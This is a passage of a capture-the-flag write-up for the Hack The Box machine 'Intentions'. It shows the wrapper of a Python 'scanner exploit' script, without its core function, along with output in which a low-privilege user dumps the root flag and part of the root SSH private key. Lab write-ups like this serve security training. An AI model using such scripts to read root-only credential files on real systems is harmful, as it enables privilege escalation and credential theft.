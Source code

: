 ```python
def set_arguments():
    parser = argparse.ArgumentParser(
        description="HTB Intentions - Scanner exploit"
    )
    parser.add_argument('-f', '--file', dest='file', required=True, choices=['/root/root.txt', '/root/.ssh/id_rsa'])
    return parser.parse_args()

def main():
    try:
        start_time = time.time()
        args = set_arguments()
        exploit(args.file)
        end_time = time.time()
        print("\n[+] Script finished successfully")
        print(f"\n[+] Total time: {round(end_time - start_time, 2)} s\n")
        sys.exit(0)

    except KeyboardInterrupt:
        print("\n\n[!] Keyboard interrumpt detected. Quitting!")
        sys.exit(1)

main()
```

It is possible to read the root flag.

```bash
greg@intentions:~$ python3 scanner_exploit.py -f /root/root.txt

[+] Dumping /root/root.txt

fca42e38631ecfab****************

[+] Script finished successfully

[+] Total time: 1.59 s
```

Or the root SSH private key.

```bash
greg@intentions:~$ python3 scanner_exploit.py -f /root/.ssh/id_rsa

[+] Dumping /root/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEA5yMuiPaWPr6P0GYiUi5EnqD8QOM9B7gm2lTHwlA7FMw95/wy8JW3
HqEMYrWSNpX2HqbvxnhOBCW/uwKMbFb4LPI+EzR6eHr5vG438EoeGmLFBvhge54WkTvQyd
vk6xqxjypi3PivKnI2Gm+BWzcMi6kHI+NLDUVn7aNthBIg9OyIVwp7LXl3cgUrWM4StvYZ
ZyGpITFR/1KjaCQjLDnshZO7OrM/PLWdyipq2yZtNoB57kvzbPRpXu7ANbM8wV3cyk/OZt
...
-----END OPENSSH PRIVATE KEY-----

[+] Script finished successfully

[+] Total time: 194.81 s
```
